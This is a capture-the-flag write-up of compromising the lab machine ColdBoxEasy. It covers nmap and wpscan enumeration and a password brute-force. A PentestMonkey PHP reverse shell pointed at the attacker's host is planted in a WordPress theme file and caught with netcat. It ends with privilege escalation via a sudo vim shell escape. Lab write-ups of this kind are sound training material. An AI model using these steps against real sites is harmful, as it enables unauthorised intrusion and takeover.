 # Proving Grounds Play - ColdBoxEasy

#### Ip: 192.168.220.248
#### Name: ColdBoxEasy
#### Rating: Easy
#### Community Rating: Easy

------------------------------------------------

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ sudo nmap -p- -sC -sV --min-rate=10000 192.168.167.239
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-24 12:57 CDT
Nmap scan report for 192.168.167.239
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
```

Looking at the page on port 80 we find it is running WordPress.

pgplay_coldboxeasy_site.png

Kicking off some scanning against the site using wpscan, we find some usernames:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url 192.168.167.239 --enumerate vp,u,vt,tt
```

pgplay_coldboxeasy_usernames.png


Directory fuzzing reveals: http://192.168.167.239/hidden/ which contains an interesting message:

```

U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

### Exploitation

From here we find we can bruteforce user c0ldd's password using wpscan:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url http://192.168.167.239/wp-login.php --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt
<SNIP>
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Let's use this to login:

pgplay_coldboxeasy_in.png

We can now grab a copy of PentestMonkey's famous php-reverse-shell.php and update the variables for our attacking box:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.171';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Let's then copy the script and go to Appearance > Themes > Editor, and overwrite the 404.php code.

pgplay_coldboxeasy_themes.png

From here we can set up a nc listener and navigate to http://192.168.167.239/wp-content/themes/twentyfifteen/404.php to trigger our shell.

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ nc -lnvp 9001                   
listening on [any] 9001 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.167.239] 33962
Linux ColddBox-Easy 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:31:49 up 37 min,  0 users,  load average: 0.00, 0.08, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ColddBox-Easy
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 
```

We can now grab the local.txt flag:

pgplay_coldboxeasy_user.png

### Privilege Escalation

Looking at the wp-config.php file in `/var/www/html` we find some credentials:

pgplay_coldboxeasy_creds.png

We can use these to `su c0ldd`:

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ whoami
c0ldd
```

Seeing what c0ldd can run with elevated permissions:

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Cool, we've got a few options here, let's exploit vim for a root shell:

Let's head to gtfobins and grab the command we'll need: https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

We can now grab the root flag:

pgplay_coldboxeasy_root.png

Thanks for following along!

-Ryan


